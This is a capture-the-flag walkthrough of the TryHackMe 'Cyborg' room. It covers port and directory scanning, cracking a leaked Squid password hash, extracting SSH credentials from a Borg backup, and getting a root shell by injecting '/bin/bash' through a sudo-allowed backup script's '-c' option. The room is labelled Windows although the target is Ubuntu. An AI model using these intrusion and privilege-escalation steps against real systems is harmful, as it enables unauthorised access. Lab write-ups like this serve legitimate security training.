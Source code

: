 ```yaml
---
title: "Cyborg"
---
```


:::info Description

These are my notes for the [Cyborg Room](https://tryhackme.com/room/cyborgt8) on TryHackMe.

Note: Task #1 is to deploy the machine.

|OS|Level|Rating
|:---:|:-----:|:-----:|
|Windows|Easy|5/5|

:::

## RECON

### Nmap

From scan `nmap -v -sV -p- -o nmap-cyborg.txt 10.10.148.181`

I found:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Gobuster

results (didnt note the command):

```bash
http://10.10.19.193/.hta                 (Status: 403) [Size: 277]
http://10.10.19.193/.htaccess            (Status: 403) [Size: 277]
http://10.10.19.193/.htpasswd            (Status: 403) [Size: 277]
http://10.10.19.193/admin                (Status: 301) [Size: 312] [--> http://10.10.19.193/admin/]
http://10.10.19.193/etc                  (Status: 301) [Size: 310] [--> http://10.10.19.193/etc/]
http://10.10.19.193/index.html           (Status: 200) [Size: 11321]
http://10.10.19.193/server-status        (Status: 403) [Size: 277]
```

I browse to `http://10.10.19.193/etc/squid/passwd` and find `music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.`

Let's crack it.

## Crack

```bash
└─$ john passwd --wordlist=/usr/share/wordlists/rockyou.txt                                                  130 ⨯
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
squidward        (music_archive)
1g 0:00:00:01 DONE (2022-01-15 23:24) 0.6711g/s 26158p/s 26158c/s 26158C/s wonderfull..samantha5
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We have user/password = `music_archive/squidward`

## Enumerate web folders

I found `squid.conf`:

```bash
# http://10.10.19.193/etc/squid/squid.conf

auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

### archive.tar

I found archive on `view-source:http://10.10.148.181/admin/index.html` = `http://10.10.148.181/admin/archive.tar`

downloaded & extracted - contains a BORG archive.

might come in handy later:

```sh
└─$ strings integrity.5
version
hints
@{"algorithm": "XXH64", "digests": {"final": "05178884e81563d7"\}\}
index
b{"algorithm": "XXH64", "digests": {"HashHeader": "146e9cb969e480a3", "final": "b53737af67235823"\}\}
```

config file

```sh
[repository]
version = 1
segments_per_dir = 1000
max_segment_size = 524288000
append_only = 0
storage_quota = 0
additional_free_space = 0
id = ebb1973fa0114d4ff34180d1e116c913d73ad1968bf375babd0259f74b848d31
key = hqlhbGdvcml0aG2mc2hhMjU2pGRhdGHaAZ6ZS3pOjzX7NiYkZMTEyECo+6f9mTsiO9ZWFV
        L/2KvB2UL9wHUa9nVV55aAMhyYRarsQWQZwjqhT0MedUEGWP+FQXlFJiCpm4n3myNgHWKj
        2/y/khvv50yC3gFIdgoEXY5RxVCXhZBtROCwthh6sc3m4Z6VsebTxY6xYOIp582HrINXzN
        8NZWZ0cQZCFxwkT1AOENIljk/8gryggZl6HaNq+kPxjP8Muz/hm39ZQgkO0Dc7D3YVwLhX
        daw9tQWil480pG5d6PHiL1yGdRn8+KUca82qhutWmoW1nyupSJxPDnSFY+/4u5UaoenPgx
        oDLeJ7BBxUVsP1t25NUxMWCfmFakNlmLlYVUVwE+60y84QUmG+ufo5arj+JhMYptMK2lyN
        eyUMQWcKX0fqUjC+m1qncyOs98q5VmTeUwYU6A7swuegzMxl9iqZ1YpRtNhuS4A5z9H0mb
        T8puAPzLDC1G33npkBeIFYIrzwDBgXvCUqRHY6+PCxlngzz/QZyVvRMvQjp4KC0Focrkwl
        vi3rft2Mh/m7mUdmEejnKc5vRNCkaGFzaNoAICDoAxLOsEXy6xetV9yq+BzKRersnWC16h
        SuQq4smlLgqml0ZXJhdGlvbnPOAAGGoKRzYWx02gAgzFQioCyKKfXqR5j3WKqwp+RM0Zld
        UCH8bjZLfc1GFsundmVyc2lvbgE=
```

## Borg Backup System

the tar is a borg deduplication file/archive [borg](https://borgbackup.readthedocs.io/en/stable/index.html).

the [usage](https://borgbackup.readthedocs.io/en/stable/usage/general.html) is e.g. `borg list /path/to/archive`

for the archive.tar with `/home/field/dev` the actual "archive" is the folder `final_archive`:

use the passwd we cracked `squidward`:

```bash
┌──(kali㉿kali)-[~/…/download/home/field/dev]
└─$ borg list ./final_archive
Enter passphrase for key /home/kali/Documents/RxHack/THM/OFFENSIVEPENTESTPATH/CYBORG/download/home/field/dev/final_archive:
music_archive                        Wed, 2020-12-30 03:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```

so will try and extract it, see any info in it.

## PRIVESC

### user.txt

mounted archive using `borg mount ./final_archive /tmp/borg`, mounts the FUSE filesystem archive at `/tmp/borg` and was the users whole home dir backup. had a look around and found `Document\note.txt` which had:

```bash
└─$ cat Documents/note.txt
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

use it to `ssh alex@10.10.148.181` and got the `user.txt` flag.

```bash
alex@ubuntu:~$ cat user.txt
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
```

### root.txt

check what alex can do with `sudo`:

```bash
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

looking through the `/etc/mp3backups/backup.sh` and this part looks the most interesting because it's allowing a command to be injected in here, running as root :D

```bash
#!/bin/bash

...

while getopts c: flag
do
  case "$\{flag}" in
    c) command=$\{OPTARG};;
  esac
done

...

```

This [page](https://www.howtogeek.com/778410/how-to-use-getopts-to-parse-linux-shell-script-options/) explains how `getopts` works by letting you set the characters used to trigger the cases.

I try adding a `-c /bin/bash` to the backup script:

```bash
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh -c /bin/bash
/home/alex/Music/image12.mp3
/home/alex/Music/image7.mp3
/home/alex/Music/image1.mp3
/home/alex/Music/image10.mp3
/home/alex/Music/image5.mp3
/home/alex/Music/image4.mp3
/home/alex/Music/image3.mp3
/home/alex/Music/image6.mp3
/home/alex/Music/image8.mp3
/home/alex/Music/image9.mp3
/home/alex/Music/image11.mp3
/home/alex/Music/image2.mp3
find: ‘/run/user/108/gvfs’: Permission denied
Backing up /home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3 to /etc/mp3backups//ubuntu-scheduled.tgz

tar: Removing leading `/' from member names
tar: /home/alex/Music/song1.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song2.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song3.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song4.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song5.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song6.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song7.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song8.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song9.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song10.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song11.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song12.mp3: Cannot stat: No such file or directory
tar: Exiting with failure status due to previous errors

Backup finished
root@ubuntu:~#
```

because this spawns a shell halfway through the script, the output will be going to some other output, so we don't see the results until I exit out of the shell:

```bash
root@ubuntu:~# id; whoami; cat /root/root.txt
root@ubuntu:~# exit
uid=0(root) gid=0(root) groups=0(root) root flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```
